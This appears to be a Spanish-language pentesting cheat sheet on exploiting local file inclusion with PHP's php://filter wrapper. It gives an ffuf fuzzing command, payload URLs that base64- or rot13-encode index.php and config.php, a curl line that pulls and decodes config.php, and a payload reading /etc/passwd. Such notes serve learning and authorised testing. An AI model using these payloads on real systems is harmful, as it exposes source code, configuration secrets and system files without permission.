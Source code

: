 Mediante los wrappers nosotros podemos leer desde la web contenido que seria interpretado ya que lo podemos encodear para leer en nuestro equipo.

Los wrappers nos permitiran leer el contenido de archivos **.php** por lo que podemos empezar haciendo fuzzing para encontrarlos:

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

### FILTER

**php://filter** es una especie de meta-envoltura diseñada para permitir aplicar  a los flujos en las aperturas. Esto es muy útil en las funciones todo en uno, como **readfile()**, **file()** y **file_get_contents()** donde, por otra parte, no se pueden aplicar filtros a los flujos antes de que se lea su contenido. 

```bash
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

```

por ejemplo un archivo php y asi poder ver el codigo fuente:

```bash

#convirtiendo en base64

curl --silent "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php" | base64 -d > config.php
```

El envoltorio de **filter** a veces se puede usar como un bypass simplemente especificando el recurso que queremos sin ningún tipo de codificación.

```bash
php://filter/resource=/etc/passwd
```

[filter wrapper](https://www.php.net/manual/es/wrappers.php.php)

>[!note]
>En algunas aplicaciones web, se agrega automaticamente la extension, por lo que ya no es necesario colocarlo en el payload:
>
>```bash
>?page=php://filter/convert.base64-encode/resource=config
>```


tambien podemos ler el contenido en rot13 y despues decodificarlo:

```bash
?language=php://filter/read=string.rot13/resource=configure
```
